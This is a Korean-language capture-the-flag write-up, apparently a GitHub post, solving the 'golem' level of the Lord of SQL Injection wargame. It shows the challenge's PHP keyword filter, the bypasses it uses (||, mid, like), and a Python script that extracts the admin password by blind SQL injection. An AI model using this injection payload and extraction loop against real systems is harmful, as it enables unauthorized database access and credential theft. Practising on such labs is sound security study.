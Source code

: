 <img width="208" alt="스크린샷 2020-01-18 오후 7 06 48" src="https://user-images.githubusercontent.com/54495632/72662132-afc03900-3a26-11ea-959c-7c08b3f42214.png">

11번 골렘

<img width="663" alt="스크린샷 2020-01-18 오후 7 06 54" src="https://user-images.githubusercontent.com/54495632/72662134-b2229300-3a26-11ea-9ca6-f996dd684405.png">

if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 

pw에 or, and, substr, = 등의 기호가 오면 필터링된다.

or - || 로 대체한다.

and - &&로 대체할 수 있다. 해당 문제에서 and 자체를 사용하지 않았다.

subset - mid 함수로 대체 가능하다.

= - like를 이용했다.

$query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 

쿼리상 where절 true이면 hello ~ 가 출력된다.

$_GET[pw] = addslashes($_GET[pw]); 
$query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
$result = @mysqli_fetch_array(mysqli_query($db,$query)); 
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 

그 전 문제에서 푼 구조이다. 알맞은 pw를 URL로 입력하게 되면 문제를 solve할 수 있다. 바뀐점이라면, substr과 = 이 필터링 됐을 때 어떻게 접근할 것인가에 대한 문제인 것 같다.

<img width="640" alt="스크린샷 2020-01-18 오후 7 21 36" src="https://user-images.githubusercontent.com/54495632/72662319-28c09000-3a29-11ea-869a-49d5319c813d.png">

<img width="632" alt="스크린샷 2020-01-18 오후 7 21 48" src="https://user-images.githubusercontent.com/54495632/72662323-2fe79e00-3a29-11ea-9c90-8b236ff08c21.png">

<img width="636" alt="스크린샷 2020-01-18 오후 7 22 31" src="https://user-images.githubusercontent.com/54495632/72662324-34ac5200-3a29-11ea-84a3-1c0d6985adb5.png">

URL과 쿼리를 다음과 같은 형식으로 주어 pw의 길이가 8임을 찾았다.

<img width="640" alt="스크린샷 2020-01-18 오후 7 38 02" src="https://user-images.githubusercontent.com/54495632/72662447-98834a80-3a2a-11ea-8fac-817c6c084b49.png">

mid 사용 자체는 substr과 같다.
ascii(mid(pw,1,1)) -> pw의 index 1부터 한 글자의 아스키 코드값 -> 55
다음과 같은 URL과 파이썬을 이용하여 문제를 해결할 수 있었다.

<img width="284" alt="스크린샷 2020-01-18 오후 7 39 32" src="https://user-images.githubusercontent.com/54495632/72662461-cff1f700-3a2a-11ea-84a1-7f48b247e039.png">

import requests

cookies={'PHPSESSID':'쿠키!'}
url="https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php?"

pw=""
for i in range(1,9):
    for j in range(33,128):
        query="pw=%27||ascii%28mid%28pw%2C"+str(i)+"%2C1%29%29like%20"+str(j)+"%23"
        geturl=url+query
        res=requests.get(geturl,cookies=cookies)
        if((res.text).find("Hello admin")>0):
            pw+=chr(j)
            print (pw)
            break

print ("finish pw :"+pw)

<img width="642" alt="스크린샷 2020-01-18 오후 7 40 05" src="https://user-images.githubusercontent.com/54495632/72662468-e435f400-3a2a-11ea-8ff7-84973c27c861.png">

 